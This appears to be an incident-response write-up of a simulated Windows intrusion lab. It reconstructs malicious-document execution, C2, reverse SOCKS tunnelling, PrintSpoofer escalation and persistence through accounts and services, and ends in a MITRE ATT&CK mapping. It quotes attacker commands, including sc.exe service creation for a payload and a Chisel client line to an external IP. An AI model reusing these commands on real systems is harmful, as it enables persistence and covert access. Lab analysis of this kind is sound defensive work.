

*Figure 15 — Windows Security Event ID 4720 confirming creation of the local account `shion`, with the action recorded under the SYSTEM security context.*

Although process evidence showed commands targeting both `shion` and `shuna`, the preserved Event ID 4720 screenshot specifically confirms the creation of `shion`.

The commands involving `shuna` are documented separately as account-manipulation activity. The available screenshot does not independently establish every resulting account state.

Additional account-management events were examined to understand the changes made after these accounts were introduced.

Relevant events included:

| Event ID | Description | Investigative Value |
| --- | --- | --- |
| `4720` | User account created | Establishes the creation of a new account |
| `4722` | User account enabled | Indicates that an account was enabled |
| `4724` | Password reset attempted | Indicates password-reset activity, with the event's recorded outcome requiring review |
| `4738` | User account changed | Provides evidence of account-property modifications |

These events were analyzed as a related sequence rather than isolated administrative operations.

Within the context of the confirmed intrusion, the creation and modification of previously unrecognized accounts was consistent with establishing additional persistent access.

### Administrator Group Membership

The investigation also identified account activity involving the local Administrators group.

Windows Security Event ID `4732` recorded a member being added to a security-enabled local group.

The event details were examined to determine the affected group and the account receiving membership.

Adding an attacker-controlled account to the Administrators group provides a potential route to continued privileged access through normal Windows authentication mechanisms.

This form of persistence is particularly significant because it may remain available even after the original malicious document, downloaded payload, or reverse shell has been removed.

However, creation of an account and membership in Administrators do not independently prove a subsequent successful login using that account.



*Figure 16 — Windows Security Event ID 4732 confirming that the local account `shion` was added to the built-in Administrators group.*

### Additional Persistent Access

Further process-creation evidence revealed that the attacker used Windows Service Control (`sc.exe`) to create additional persistence mechanisms.

The observed commands included:

```text
sc.exe \\TEMPEST create TempestUpdate binpath= C:\ProgramData\final.exe start= auto

sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto
```

Both commands specified the same executable:

`C:\ProgramData\final.exe`

The `start= auto` parameter requested automatic service startup, allowing the payload to be launched when Windows starts if the service creation succeeded and the service remained enabled.



*Figure 17 — Process-creation evidence showing `sc.exe` commands configured to create two automatically starting services referencing `final.exe`.*

This activity represented an additional persistence attempt distinct from the previously identified Startup-folder shortcut and privileged local accounts.

The preserved screenshot confirms execution of the service-creation commands, but does not independently confirm both services were successfully installed and started.

### Account-Manipulation Command Sequence

Additional process evidence showed the attacker using `net.exe` to create and modify local accounts, enumerate users, and change privileged account credentials.



*Figure 14 — Process evidence showing account creation, password modification, local Administrators group changes, and service-creation commands during post-escalation activity. Plaintext passwords have been redacted.*

These commands provide context for the Windows Security account-management events and demonstrate that the attacker was attempting multiple methods of maintaining administrative access.

### Persistence Findings

The account-management and service investigation supported the following conclusions:

1. Process evidence showed commands creating and modifying the local accounts `shion` and `shuna`.
2. Windows Security Event ID `4720` independently confirmed creation of `shion`.
3. Event ID `4732` confirmed that `shion` was added to the built-in Administrators group.
4. Additional commands attempted to modify local account passwords, including the built-in Administrator account.
5. `sc.exe` was used to request creation of two automatically starting Windows services, `TempestUpdate` and `TempestUpdate2`, both referencing `C:\ProgramData\final.exe`.
6. The observed account and service activity provided additional persistence opportunities independent of the earlier Startup-folder mechanism.

Together, these findings identified three distinct approaches to maintaining access during the intrusion: Startup-folder persistence, privileged local accounts, and attempted automatic Windows service installation.

## Attack Timeline

The investigation reconstructed a multi-stage Windows intrusion by correlating Sysmon events, Windows Security logs, decoded command-and-control content, and network traffic.

The timeline below presents the observed attack progression in investigative order. It is a sequence of activity rather than a timestamp-accurate chronology; exact event times are not included where they could not be reliably established from the preserved evidence.

| Phase | Observed Activity | Supporting Evidence |
| --- | --- | --- |
| Initial Execution | Malicious Word document `free_magicules.doc` opened and initiated suspicious child-process activity | Sysmon process events |
| Exploitation | `WINWORD.EXE` launched `msdt.exe` using PCWDiagnostic parameters and encoded PowerShell | Process creation and command-line telemetry |
| Payload Delivery | PowerShell retrieved and extracted `update.zip` from `phishteam.xyz` | Decoded PowerShell command |
| Initial Persistence | `update.lnk` was created in the Windows Startup directory | Sysmon Event ID 11 |
| Command and Control | Repeated outbound connections and HTTP requests associated with `resolvecyber.xyz` | Sysmon network events and PCAP |
| C2 Identification | HTTP traffic contained the `Nim httpclient/1.6.6` User-Agent | Brim HTTP analysis |
| Command Execution | Decoded HTTP content revealed a `whoami` command and account-related activity | HTTP-stream analysis |
| Credential Discovery | Credential configuration was discovered in `automation.ps1` | PowerShell command output |
| Service Discovery | The attacker enumerated TCP listening ports using `netstat -ano -p tcp` | Process and command-output evidence |
| Tunneling | `ch.exe` launched with `client 167.71.199.191:8080 R:socks` | Sysmon process-creation evidence |
| Privilege Enumeration | `whoami /priv` was executed to inspect available Windows privileges | Process creation |
| Privilege Escalation | `spf.exe` (PrintSpoofer) was executed with `final.exe` | Process-creation evidence |
| SYSTEM Access | Decoded command output reported `nt authority\system` | Captured and decoded command output |
| Account Manipulation | `net.exe` commands attempted account creation and password changes | Process-creation evidence |
| Account Creation | Windows Security Event ID 4720 confirmed creation of `shion` | Windows Security logs |
| Privileged Membership | Event ID 4732 confirmed that `shion` was added to Administrators | Windows Security logs |
| Additional Persistence | `sc.exe` commands requested creation of automatically starting `TempestUpdate` and `TempestUpdate2` services | Process-creation evidence |

### Attack Progression

The attack developed through several connected phases:

**Initial compromise:** A malicious Word document triggered execution through `msdt.exe` and encoded PowerShell.

**Establishing access:** A second-stage payload was retrieved, Startup persistence was configured, and suspicious HTTP communication followed.

**Post-compromise discovery:** The attacker issued commands through the C2 channel, investigated credentials, and enumerated available network services.

**Expanding control:** Chisel was used to initiate a reverse SOCKS tunnel, followed by privilege enumeration and PrintSpoofer execution.

**Privileged persistence:** SYSTEM-level activity was followed by account manipulation, confirmed Administrator-group membership, and attempted installation of automatically starting Windows services.

### Analytical Notes

Several distinctions were maintained during timeline reconstruction:

- A network connection did not automatically establish successful command execution.
- A file-creation event did not independently prove that the file executed.
- Privilege enumeration did not, by itself, establish privilege escalation.
- Process evidence showing service-creation commands did not independently confirm successful service installation.
- Windows Security events were used to validate account-management outcomes where available.

These distinctions ensured that the timeline represented what the preserved evidence could establish rather than assuming every attacker command succeeded.

## Key Findings

The investigation identified a multi-stage Windows intrusion involving malicious document execution, command-and-control communication, credential discovery, network tunneling, privilege escalation, and multiple persistence mechanisms.

### 1. Malicious Document Execution

A Microsoft Word document, `free_magicules.doc`, initiated a suspicious execution chain involving `WINWORD.EXE`, `msdt.exe`, and encoded PowerShell.

Process telemetry connected the document to subsequent attacker-controlled execution, providing stronger evidence than the presence of a suspicious document alone.

### 2. Second-Stage Payload Delivery and Persistence

Decoded PowerShell revealed the retrieval and extraction of `update.zip` from `phishteam.xyz`.

Sysmon Event ID 11 subsequently recorded creation of `update.lnk` inside the Windows Startup directory, establishing a mechanism for execution at user logon.

### 3. HTTP-Based Command and Control

Network analysis identified repeated communication associated with `resolvecyber.xyz` and the unusual User-Agent `Nim httpclient/1.6.6`.

Captured HTTP content also revealed encoded commands, including `whoami`, allowing network activity to be connected with post-compromise execution.

### 4. Credential Discovery and Network Reconnaissance

PowerShell output exposed embedded authentication material within `automation.ps1`.

The attacker also executed `netstat -ano -p tcp` to enumerate listening services and their associated process IDs.

These findings indicated that the attacker was gathering information useful for additional access.

### 5. Reverse SOCKS Tunneling

Sysmon process telemetry identified `ch.exe` executing a Chisel client with reverse SOCKS parameters:

`client 167.71.199.191:8080 R:socks`

This established evidence of attempted reverse tunneling through the compromised endpoint.

The available screenshot did not independently prove that the tunnel successfully carried subsequent internal traffic.

### 6. Privilege Escalation to SYSTEM

Privilege enumeration using `whoami /priv` was followed by PrintSpoofer-related execution involving `spf.exe` and `final.exe`.

Decoded command output subsequently reported `nt authority\system`, supporting the assessment that attacker-controlled execution reached the SYSTEM security context.

### 7. Privileged Account Persistence

Process evidence identified account-creation and modification commands targeting `shion` and `shuna`.

Windows Security Event ID `4720` independently confirmed creation of `shion`, while Event ID `4732` confirmed that the account was added to the built-in Administrators group.

These changes provided an additional potential access mechanism independent of the original malicious document.

### 8. Windows Service Persistence Attempts

Process evidence showed `sc.exe` commands requesting creation of two automatically starting services:

- `TempestUpdate`
- `TempestUpdate2`

Both referenced `C:\ProgramData\final.exe`.

The commands established an attempt to configure durable execution, although the preserved evidence did not independently confirm successful service installation.

---

## Investigation Indicators

The following indicators were identified from the preserved forensic evidence. They are specific to the simulated intrusion and should be interpreted in the context of the surrounding process, account, and network activity.

### Network Indicators

| Indicator | Context |
| --- | --- |
| `phishteam.xyz` | Infrastructure associated with second-stage payload delivery |
| `resolvecyber.xyz` | Domain associated with suspicious HTTP/C2 activity |
| `167.71.222.162` | Destination observed in repeated Sysmon network connections |
| `167.71.199.191:8080` | Chisel reverse SOCKS server destination |
| `Nim httpclient/1.6.6` | HTTP User-Agent observed during suspicious communication |

### Files and Executables

| Indicator | Context |
| --- | --- |
| `free_magicules.doc` | Malicious Word document associated with initial execution |
| `update.zip` | Archive retrieved through decoded PowerShell |
| `update.lnk` | Shortcut created in the Windows Startup directory |
| `automation.ps1` | PowerShell script containing embedded domain credential material |
| `first.exe` | Attacker-associated executable that spawned Chisel |
| `ch.exe` | Chisel client used for reverse SOCKS tunneling |
| `spf.exe` | PrintSpoofer executable used during privilege-escalation activity |
| `final.exe` | Payload involved in SYSTEM-level execution and service-creation commands |

### Accounts and Security Contexts

| Indicator | Context |
| --- | --- |
| `TEMPEST\benimaru` | Domain account referenced in discovered credential configuration |
| `shion` | Local account whose creation and Administrators membership were confirmed |
| `shuna` | Local account targeted by account-management commands |
| `NT AUTHORITY\SYSTEM` | Privileged security context reported in decoded command output |

### Windows Event Indicators

| Event ID / Source | Investigative Value |
| --- | --- |
| Sysmon Event ID 1 | Process creation, command-line activity, and parent-child relationships |
| Sysmon Event ID 3 | Network connection activity |
| Sysmon Event ID 11 | File creation, including the Startup shortcut |
| Security Event ID 4720 | Local account creation |
| Security Event ID 4722 | Account enablement |
| Security Event ID 4724 | Password-reset activity |
| Security Event ID 4738 | Account-property changes |
| Security Event ID 4732 | Addition of an account to a security-enabled local group |

### Persistence Artifacts

| Artifact | Significance |
| --- | --- |
| `update.lnk` in the Windows Startup directory | Logon-based persistence |
| `shion` in the local Administrators group | Potential persistent privileged account access |
| `TempestUpdate` | Attempted automatic Windows service persistence |
| `TempestUpdate2` | Additional attempted automatic Windows service persistence |
| `C:\ProgramData\final.exe` | Executable referenced by service-creation commands |

### Analyst Note

These indicators should not be treated as universally malicious outside the context of this investigation.

Utilities such as `certutil.exe`, PowerShell, `net.exe`, `sc.exe`, and `whoami.exe` have legitimate administrative uses. Their significance depends on how they were executed, their parent processes, associated network destinations, and their relationship to the broader intrusion.

Likewise, observing a file, command, or network connection does not automatically establish that every subsequent attacker objective succeeded.

## MITRE ATT&CK Mapping

The Tempest investigation identified attacker behaviors spanning execution, persistence, discovery, credential access, command and control, privilege escalation, and account manipulation.

The following techniques were mapped to the preserved Sysmon telemetry, Windows Security events, decoded command content, and network evidence.

| Tactic | ATT&CK Technique | ID | Supporting Evidence |
| --- | --- | --- | --- |
| Execution | Command and Scripting Interpreter: PowerShell | `T1059.001` | Encoded PowerShell execution following the malicious Word/MSDT process chain |
| Command and Control | Ingress Tool Transfer | `T1105` | PowerShell retrieval of `update.zip` from external infrastructure |
| Persistence | Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder | `T1547.001` | Sysmon Event ID 11 recording creation of `update.lnk` in the Windows Startup directory |
| Command and Control | Application Layer Protocol: Web Protocols | `T1071.001` | HTTP traffic to `resolvecyber.xyz` associated with suspicious C2 activity |
| Discovery | System Owner/User Discovery | `T1033` | Decoded C2 command containing `whoami` |
| Discovery | Network Service Discovery | `T1046` | Execution of `netstat -ano -p tcp` to enumerate listening services and ports |
| Credential Access | Unsecured Credentials: Credentials in Files | `T1552.001` | Embedded domain authentication material identified in `automation.ps1` |
| Command and Control | Proxy | `T1090` | Chisel client launched with reverse SOCKS parameters |
| Privilege Escalation | Exploitation for Privilege Escalation | `T1068` | PrintSpoofer-associated execution followed by decoded output reporting `NT AUTHORITY\SYSTEM` |
| Persistence | Create Account: Local Account | `T1136.001` | Windows Security Event ID 4720 confirming creation of `shion` |
| Persistence / Privilege Escalation | Account Manipulation: Additional Local or Domain Groups | `T1098.007` | Event ID 4732 confirming addition of `shion` to the local Administrators group |
| Persistence | Create or Modify System Process: Windows Service | `T1543.003` | `sc.exe` commands requesting creation of `TempestUpdate` and `TempestUpdate2` services with automatic startup |

### Evidence and Mapping Considerations

**Initial execution:** The observed `WINWORD.EXE` → `msdt.exe` → PowerShell chain established suspicious document-triggered execution. The mapping emphasizes the confirmed PowerShell behavior without assigning additional exploitation techniques unsupported by the preserved artifacts.

**Tunneling:** Chisel was launched with reverse SOCKS parameters, supporting the Proxy technique. The available process evidence does not independently confirm that the tunnel successfully relayed subsequent internal traffic.

**Privilege escalation:** PrintSpoofer execution and later SYSTEM identity output support the escalation assessment. The exact operating-system vulnerability or privilege-abuse mechanism was not independently reconstructed, so the mapping should not be interpreted as proof of a particular CVE.

**Account persistence:** Account creation and Administrator-group membership were confirmed through Windows Security events. The Windows service mapping describes observed service-creation commands, not verified installation or successful startup.

These mappings represent investigative classifications of the activity observed in the simulated environment. They do not imply that every attacker objective succeeded or that the listed techniques are malicious in every context.

## Detection Opportunities

## Remediation Recommendations

## Evidence Limitations

## Skills Demonstrated